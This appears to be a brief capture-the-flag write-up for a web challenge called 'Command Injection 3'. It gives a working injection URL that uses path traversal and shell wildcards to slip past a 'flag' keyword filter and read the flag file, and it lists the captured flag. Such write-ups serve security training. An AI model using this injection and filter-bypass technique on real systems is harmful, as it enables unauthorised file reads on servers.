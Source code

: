 # Command Injection 3
Web

## Challenge 

This time I promise... You will NEVER BE ABLE TO DO IT!

http://challs.hats.sg:1339/

Flag format: flag{.+}

Challenge by: Gladiator


## Solution


Somehow my cat was not being filtered out.

Since 'flag' is filtered out, but the `*` astericks are not, use it to cat the flag

http://challs.hats.sg:1339/?cmd=cat%20../../../../fla*/fla*

## Flag

	flag{aint_no_wafu_like_youuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu}
